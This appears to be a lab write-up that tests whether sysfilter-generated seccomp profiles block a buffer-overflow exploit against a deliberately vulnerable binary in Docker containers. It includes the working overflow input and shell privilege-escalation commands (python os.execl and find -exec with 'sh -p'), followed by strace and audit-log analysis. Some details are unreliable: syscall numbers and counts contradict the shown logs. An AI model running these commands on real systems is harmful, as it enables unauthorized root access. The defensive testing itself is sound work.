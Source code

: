 ## Custom – sysfilter

### Preparation

#### System Calls Extraction

_Extract the syscalls from the binary `custom_app` into `/tmp/app.json`_

```
docker exec -it custom-sysfilter-seccomp-container bash -c "/sysfilter/extraction/app/sysfilter_extract /app/custom_app -o /tmp/app.json"
```

#### Seccomp Profile enforcement

_Enforce the allowed syscalls for the binary `custom_app`_

```
docker exec -it custom-sysfilter-seccomp-container bash -c "/sysfilter/enforcement/sysfilter_enforce /app/custom_app /tmp/app.json"
```

#### Starting containers

It is not neccessary to start the app/container.
Just enter the containers with the command `bash`.

```
docker exec -it custom-sysfilter-seccomp-container bash
docker exec -it custom-chestnut-seccomp-container bash
```

### Conduct the exploits

First, we verify the IP addresses of the container, to ensure we target the right containers:

```
❯ docker ps
CONTAINER ID   IMAGE                      COMMAND       CREATED          STATUS          PORTS                                                                                  NAMES
76b9e25b31d8   custom-sysfilter-normal    "/bin/bash"   11 minutes ago   Up 11 minutes                                                                                          custom-sysfilter-normal-container
d400d5b35097   custom-sysfilter-seccomp   "/bin/bash"   11 minutes ago   Up 11 minutes
```

Note: the attacks are executed inside each container. The script `attack.sh` is in the current directory.

_seccomp_
The attack on the container with the applied seccomp profile fails almost completely for binaries which could be dangerous. However, execution of the binaries `/bin/pwd` and `/bin/true` is still possible! There is a chance that other binaries might aswell execute successfully.

```
user@898919bd1119:/app$ ./custom_app AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/bin/sh
locals.path = [/bin/sh]
locals.filename = [AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/bin/sh]
Bad system call (core dumped)
user@898919bd1119:/app$ ./custom_app AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/usr/bin/python3.6
locals.path = [/usr/bin/python3.6]
locals.filename = [AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/usr/bin/python3.6]
Bad system call (core dumped)
user@898919bd1119:/app$ ./custom_app AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/usr/bin/find
locals.path = [/usr/bin/find]
locals.filename = [AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/usr/bin/find]
Bad system call (core dumped)
user@898919bd1119:/bin$ /app/custom_app AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/bin/pwd
locals.path = [/bin/pwd]
locals.filename = [AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/bin/pwd]
/bin/pwd: ignoring non-option arguments
/bin
```

_Normal_
The attack on the container without the seccomp profile succeeds. We are able to run arbitrary commands:

```
user@55a5a57f43fe:/app$ ./custom_app AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/bin/sh
locals.path = [/bin/sh]
$ id
uid=1000(user) gid=1000(user) groups=1000(user)
$ true
$ uname
Linux
$ /usr/bin/python3.6 -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# id
uid=1000(user) gid=1000(user) euid=0(root) groups=1000(user)
# /usr/bin/find . -exec /bin/sh -p \; -quit
# id
uid=1000(user) gid=1000(user) euid=0(root) egid=0(root) groups=0(root),1000(user)
```

### Analysis

As the exploit worked on the container without the seccomp profile, only the one with the enforced profile will be analysed.

_strace output:_
When starting the application with the command `strace -f /app/custom_app` we are able to see that just before the process was killed with the signal `SIGSYS`, the system call `getuid` and `set_tid_address` were executed.

```
# /bin/sh execution
...
munmap(0x7e38708aa000, 20804)           = 0
getuid()                                = 102
+++ killed by SIGSYS (core dumped) +++
Bad system call (core dumped)

# /usr/bin/id execution
...
munmap(0x70baca458000, 20804)           = 0
set_tid_address(0x70baca455310)         = 218
+++ killed by SIGSYS (core dumped) +++
Bad system call (core dumped)

# /usr/bin/python3.6 execution
...
munmap(0x778f17b54000, 20804)           = 0
set_tid_address(0x778f17b4da10)         = 218
+++ killed by SIGSYS (core dumped) +++
Bad system call (core dumped)

# /usr/bin/find execution
...
munmap(0x70f3357e9000, 20804)           = 0
set_tid_address(0x70f3357e2ad0)         = 218
+++ killed by SIGSYS (core dumped) +++
Bad system call (core dumped)
```

Further analysis on the host machine with the tool `ausearch` delievers us more insights.
As we can see, the syscall with the number 158 was the reason for the `SIGSYS` signal.

```
# /bin/sh execution
time->Mon Apr 28 18:14:18 2025
type=SECCOMP msg=audit(1745857458.872:21766): auid=4294967295 uid=1000 gid=1000 ses=4294967295 pid=196887 comm="sh" exe="/bin/dash" sig=31 arch=c000003e syscall=102 compat=0 ip=0x707bebe1c837 code=0x0
----
# /usr/bin/id execution
time->Mon Apr 28 18:14:51 2025
type=SECCOMP msg=audit(1745856891.891:21575): auid=4294967295 uid=1000 gid=1000 ses=4294967295 pid=193146 comm="id" exe="/usr/bin/id" sig=31 arch=c000003e syscall=218 compat=0 ip=0x721ba9628eb5 code=0x0
----
# /usr/bin/python3.6 execution
time->Mon Apr 28 18:15:01 2025
type=SECCOMP msg=audit(1745856901.383:21585): auid=4294967295 uid=1000 gid=1000 ses=4294967295 pid=193209 comm="python3.6" exe="/usr/bin/python3.6" sig=31 arch=c000003e syscall=218 compat=0 ip=0x780ae044eeb5 code=0x0
----
# /usr/bin/find execution
time->Mon Apr 28 18:15:07 2025
type=SECCOMP msg=audit(1745856907.759:21595): auid=4294967295 uid=1000 gid=1000 ses=4294967295 pid=193247 comm="find" exe="/usr/bin/find" sig=31 arch=c000003e syscall=218 compat=0 ip=0x71cdcf375eb5 code=0x0
```

We verify that the system call number `218` maps to `set_tid_address` with the `ausyscall` tool:

```
218	set_tid_address
```

The last thing we check is, if the system call number `218` was in the applied seccomp profile. The file `/tmp/app.json` shows no presence:

```
[0,1,3,4,5,6,7,8,9,10,11,12,13,14,15,16,20,24,25,28,32,39,41,42,44,45,47,49,51,54,59,60,62,72,78,79,96,99,186,201,202,228,229,231,234,257,262,302,21,158,221]
```

## Appendix

The following shows the time needed to extract the system calls from 3 runs:

```
❯ docker exec -it custom-sysfilter-seccomp-container bash -c "time /sysfilter/extraction/app/sysfilter_extract /app/custom_app -o /tmp/app.json"
real	0m4.298s
user	0m4.167s
sys	0m0.115s

❯ docker exec -it custom-sysfilter-seccomp-container bash -c "time /sysfilter/extraction/app/sysfilter_extract /app/custom_app -o /tmp/app.json"
real	0m4.122s
user	0m3.992s
sys	0m0.117s

❯ docker exec -it custom-sysfilter-seccomp-container bash -c "time /sysfilter/extraction/app/sysfilter_extract /app/custom_app -o /tmp/app.json"
real	0m4.325s
user	0m4.187s
sys	0m0.120s
```

`(4,298+4,122+4,325)/3=4,248`

### Missing system calls

Following system calls are not detected by sysfilter, but needed for the application to start successfully, therefore we added these two to the seccomp-profile `/tmp/app.json`. This is not sysfilters fault for not recognising the required system call, but rather a side-effect of the application logic calling a binary outside the application.

- 21 (access)
- 158 (arch_prctl)
- 221 (fadvise64)

```
sed -i '0,/\]/s/\]/,21,158,221]/' /tmp/app.json
```

### Number of system calls

```
python3 -c "print(len([0,1,3,4,5,6,7,8,9,10,11,12,13,14,15,16,20,24,25,28,32,39,41,42,44,45,47,49,51,54,59,60,62,72,78,79,96,99,186,201,202,228,229,231,234,257,262,302]))"
48
```
